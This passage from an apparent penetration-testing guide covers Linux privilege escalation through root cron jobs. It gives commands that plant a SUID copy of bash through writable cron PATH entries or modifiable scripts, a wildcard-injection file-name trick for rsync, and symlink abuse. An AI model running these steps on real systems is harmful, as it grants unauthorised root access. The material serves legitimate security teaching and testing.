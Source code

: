 ## Scheduled/Cron jobs

Check if any scheduled job is vulnerable. Maybe you can take advantage of a script being executed by root (wildcard vuln? can modify files that root uses? use symlinks? create specific files in the directory that root uses?).

```
crontab -l
ls -al /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

### Cron path

For example, inside /etc/crontab you can find the PATH: PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

(Note how the user "user" has writing privileges over /home/user)

If inside this crontab the root user tries to execute some command or script without setting the path. For example: * * * * root overwrite.sh
Then, you can get a root shell by using:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

### Cron using a script with a wildcard (Wildcard Injection)

If a script is executed by root has a “*” inside a command, you could exploit this to make unexpected things (like privesc). Example:

```
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```

If the wildcard is preceded of a path like /some/path/* , it's not vulnerable (even ./* is not).

Read the following page for more wildcard exploitation tricks:

### Cron script overwriting and symlink

If you can modify a cron script executed by root, you can get a shell very easily:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```

If the script executed by root uses a directory where you have full access, maybe it could be useful to delete that folder and create a symlink folder to another one serving a script controlled by you
